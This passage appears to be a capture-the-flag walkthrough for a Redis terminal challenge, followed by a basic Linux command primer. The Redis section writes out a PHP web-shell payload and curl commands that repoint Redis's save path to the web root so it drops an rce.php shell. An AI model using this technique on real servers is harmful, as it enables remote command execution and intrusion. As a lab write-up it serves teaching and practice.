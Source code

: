 ### Redis Investigation

Using

<pre><code class="bash">alias urlencode
urlencode=$'python3 -c "import sys, urllib.parse as ul; \\\n    print (ul.quote_plus(sys.argv[1]))"'

urlencode '"&lt;?php system($_GET[&#39;cmd&#39;]);?&gt;"'                      
%22%3C%3Fphp+system%28%24_GET%5Bcmd%5D%29%3B%3F%3E%22
</code></pre>

<pre><code class="bash">curl http://localhost/maintenance.php?cmd=config,set,dir,/var/www/html
curl http://localhost/maintenance.php?cmd=config,set,dbfilename,rce.php
curl http://localhost/maintenance.php?cmd=set,test,%22%3C%3Fphp+system%28%24_GET%5Bcmd%5D%29%3B%3F%3E%22
curl http://localhost/maintenance.php?cmd=save
</code></pre>

<img src="{{ page.image-base | prepend:site.baseurl }}tc_redis_solution.png" width="100%" alt="solution terminal challenge redis">

<div style="padding:56.25% 0 0 0;position:relative;"><iframe src="https://player.vimeo.com/video/499403897" style="position:absolute;top:0;left:0;width:100%;height:100%;" frameborder="0" allow="autoplay; fullscreen" allowfullscreen></iframe></div><script src="https://player.vimeo.com/api/player.js"></script>
<p>Video description at <a href="https://player.vimeo.com/video/499403897">https://player.vimeo.com/video/499403897</a></p>

## Courtyard

### Linux Primer

<pre><code class="bash">yes
ls
cat munchkin_19315479765589239
rm munchkin_19315479765589239
pwd
ls -lah
history
env
cd workshop/
grep -i "munch" *.txt
ls loll*
chmod u+x lollipop_engine
./lollipop_engine
cd electrical/
mv blown_fuse0 fuse0
ln -s fuse0 fuse1 
cp fuse1 fuse2
echo "MUNCHKIN_REPELLENT" >> fuse2
find /opt/munchkin_den munchkin
find /opt/munchkin_den -user munchkin
find /opt/munchkin_den -size +108k -size -110k
ps -aux
netstat -nltp
curl 127.0.0.1:54321
kill 6086
</code></pre>
